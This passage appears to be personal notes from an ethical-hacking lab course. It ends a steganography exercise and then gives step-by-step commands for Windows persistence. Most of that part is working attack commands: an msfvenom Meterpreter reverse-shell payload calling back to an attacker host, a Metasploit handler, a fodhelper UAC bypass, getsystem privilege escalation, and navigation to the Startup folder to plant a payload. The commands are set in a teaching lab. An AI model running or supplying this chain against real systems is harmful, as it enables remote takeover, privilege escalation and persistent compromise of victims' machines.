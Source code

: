 	UnStego:
	Open New tab -> type -> https://stegonline.georgeom.net/upload -> UPLOAD IMAGE -> select Island.png from Desktop -> Open
	Extract Files/Data button
	Extract Data -> Row 5 -> R,G,B
	Result section -> Look for the text
	Note: You can also download the extracted data by clicking the **Download Extracted Data** button.
This concludes the demonstration of how to perform image steganography using OpenStego and StegOnline.

---------
- Task 6: Maintain persistence by abusing boot or logon autostart execution
  The startup folder in Windows contains a list of application shortcuts that are executed when the Windows machine is booted. Injecting a malicious program into the startup folder causes the program to run when a user logins and helps you to maintain persistence or escalate privileges using the misconfigured startup folder.


	[parrot]
	root user
	cd -> go to root dir
	msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=10.10.1.13 LPORT=444 > /home/attacker/Desktop/exploit.exe
	cp /home/attacker/Desktop/exploit.ext /var/www/html/share/   [follow same steps to share folder - mentioned b4]
	service apache2 start
	msfconsole
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.10.1.13
	set lport 444
	run
	
	[windows 11]
	http://10.10.1.13/share, click explghoit.ext -> download -> run
	
	[parrot]
	meterpreter session will be opened
	getuid
try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.

	background
	use exploit/windows/local/bypassuac_fodhelper
	set session 1
	show options
	set LHOST 10.10.1.13
	set TARGET 0  [0 - Exploit Target ID]
	exploit
Note: If you get **Exploit completed, but no session was created** message without any session, type **exploit** in the console again and press **Enter**.
The BypassUAC exploit has successfully bypassed the UAC setting on the **Windows 11** machine.

	getsystem -t 1  -> to elevate privileges
	getuid 
	cd “C:\\ProgramData\\Start Menu\\Programs\\Startup”
	pwd
	create payload that needs to be uploaded into the Startup folder of Windows 11 machine.
	